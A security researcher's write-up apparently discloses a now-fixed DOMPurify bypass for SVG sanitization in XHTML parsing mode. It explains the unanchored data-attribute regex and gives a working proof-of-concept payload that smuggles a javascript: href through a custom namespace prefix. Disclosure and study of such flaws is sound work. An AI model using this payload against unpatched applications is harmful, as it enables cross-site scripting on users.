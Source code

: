 +++
title = 'DOM Purify - dirty namespace bypass'
date = 2024-12-09T00:00:00+03:00
draft = false
+++

> The article is informative and intended for security specialists conducting testing within the scope of a contract. The author is not responsible for any damage caused by the application of the provided information. The distribution of malicious programs, disruption of system operation, and violation of the confidentiality of correspondence are pursued by law.

# Introduction

In this article, I want to talk about a method for bypassing DOMPurify when it is used for sanitizing SVG files, which I recently discovered.

# Purify ~~html~~ svg
In most cases, developers use DOMPurify to sanitize HTML files, and it looks something like this:

```javascript
DOMPurify.sanitize("<a href='https://x.com/slonser_'>slonser</a>")
// output: <a href="https://x.com/slonser_">slonser</a>
```
At the same time, developers sometimes use DOMPurify to sanitize SVG files, and in such cases, they might modify the PARSER_MEDIA_TYPE
```javascript
DOMPurify.sanitize(`<svg width="800" height="600" xmlns="http://www.w3.org/2000/svg"><text x="20" y="35">Click me!</text></svg>`, {PARSER_MEDIA_TYPE: 'application/xhtml+xml'})
// output: <svg height="600" width="800" xmlns="http://www.w3.org/2000/svg"><text y="35" x="20">Click me!</text></svg>
```
# Reading the code
Recently, I encountered this behavior again while analyzing an application and decided it would be fun to try to bypass it and achieve XSS.
I decided to review DOMPurify once more in search of any oddities and found a flaw that helped me:
```js
const DATA_ATTR = seal(/^data-[\-\w.\u00B7-\uFFFF]/);
```
It’s a regular expression that checks the validity of data attribute names (DOMPurify with flawed settings allows the insertion of attributes like `data-*`).
What shocked me was that the regular expression lacked an end-of-string anchor, meaning the attribute could look like this:
```js
/^data-[\-\w.\u00B7-\uFFFF]/.test('data-slonser<')
// output: true
```

# So... How to exploit this?
At first glance, this might seem useless. However, it allows you to insert a very important character, :, into a data attribute.
Since SVG files are essentially XML files with a defined namespace, it becomes possible to define custom namespaces and use their prefixes before an attribute.
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:slonser="http://link_to_namespace">
<a slonser:attrbute="value"></a>
</svg>
```
At this point, I think many have already guessed the issue. We can create our own namespace with a name like `data-slonser` and use it to insert arbitrary attributes:
```js
console.log(DOMPurify.sanitize(`<svg width="800" height="600" xmlns="http://www.w3.org/2000/svg">
<a xmlns:data-slonser="http://www.w3.org/1999/xlink" data-slonser:href="javascript:alert(1)">
<text  x="20" y="35">Click me!</text>
</a>
</svg>`, {PARSER_MEDIA_TYPE: 'application/xhtml+xml'}));
```
Output:
```xml
<svg height="600" width="800" xmlns="http://www.w3.org/2000/svg">
<a xmlns:data-slonser="http://www.w3.org/1999/xlink" data-slonser:href="javascript:alert(1)">
<text y="35" x="20">Click me!</text>
</a>
</svg>
```
When such an SVG file is opened, and the user clicks on the text, our JavaScript will execute.


Many might also notice that the `<a>` tag contains an attribute `xmlns:data-slonser`, which is clearly unsupported and should have been sanitized. You may wonder why it is present in the output.
Indeed, it won’t be set by DOMPurify and won’t pass sanitization. So why does it appear in the output? The reason lies in this line:

```
        if (namespaceURI) {
          currentNode.setAttributeNS(namespaceURI, name, value);
        } else {
```
When our attribute is associated with this namespace, `DOMParser` will automatically recognize and interpret it, ensuring that the tag is included in the attributes.

# Fix
I reported this issue to [cure53](https://x.com/cure53berlin), and he fixed it within an hour (As always, the fastest fixes in open source!).
The issue was resolved simply by adding two characters to the regex, which now looks like this:
```
/^data-[\-\w.\u00B7-\uFFFF]+$/
```

## P.S.
Thanks to the DOMPurify developers for the best experience, as always. I hope this will be useful to someone. Also, it's possible that this issue affects custom tags, but I haven't seen them used in the context of SVG, so I didn't check.
Thank you for reading!